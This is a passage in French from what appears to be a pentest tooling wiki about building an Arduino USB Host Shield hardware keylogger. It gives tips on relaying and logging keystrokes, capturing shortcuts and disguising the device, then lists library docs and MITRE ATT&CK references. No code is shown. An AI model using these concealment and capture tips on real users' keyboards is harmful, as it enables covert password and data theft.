> - Pour un vrai MITM bidirectionnel (relayer les frappes vers le PC ET journaliser), utiliser une carte **32u4 double rôle** plutôt qu'un UNO.
> - Enregistrer les modificateurs ET les codes de touches : les raccourcis (Ctrl+C, Win+L) sont les plus intéressants.

> [!warning] ⚠️ **Pièges**
> - Avec un **UNO seul**, le shield est hôte uniquement : impossible de réémettre les frappes vers le PC — c'est un logger passif, pas un relais.
> - Le **protocole boot HID** (8 octets) est limité aux touches de base : pas de touches multimédia ou de remapping avancé sans parser personnalisé.
> - Le montage reste **visible** (câbles, boîtier) : en test autorisé, prévoir un boîtier discret et une fausse apparence.
> - La carte SD non `sync()` perd les dernières frappes en cas de débranchement brutal.

---

## 📚 References

### Official

- Dépôt GitHub officiel (bibliothèque 2.0) : https://github.com/felis/USB_Host_Shield_2.0
- Documentation Doxygen de la bibliothèque : https://felis.github.io/USB_Host_Shield_2.0
- Projet Circuits@Home (Oleg Mazurov) : https://chome.nerpa.tech/arduino_usb_host_shield_projects/
- Hardware Manual du shield : https://chome.nerpa.tech/usb-host-shield-hardware-manual/
- Documentation Arduino de la bibliothèque : https://docs.arduino.cc/libraries/usb-host-shield-library-2.0/

### Security references

- MITRE ATT&CK T1056.001 — Input Capture (Keylogging) : https://attack.mitre.org/techniques/T1056/001/
- MITRE ATT&CK T1200 — Hardware Additions : https://attack.mitre.org/techniques/T1200/
- MITRE ATT&CK T1557 — Adversary-in-the-Middle : https://attack.mitre.org/techniques/T1557/
- NIST SP 800-53 — Access Control (physical access, removable media) : https://csrc.nist.gov/pubs/sp/800/53/r5/upd1/final

### Community

- TKJ Electronics (fournisseur historique, blog Kristian Lauszus) : http://blog.tkjelectronics.dk/
- Write-up — hardware keylogger USB Host Shield : https://github.com/spacehuhn/USB-Keystroke-Hijacking
- Exemples HID de la bibliothèque (clavier, souris, scale) : https://github.com/felis/USB_Host_Shield_2.0/tree/master/examples/HID

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Protocole USB|🔌 Protocole USB]] · [[Techniques/Hardware - Arduino|🎛️ Arduino]] · [[Outil - USB Rubber Ducky|🦆 USB Rubber Ducky]] · [[Outil - Duckuino|🐤 Duckuino]]
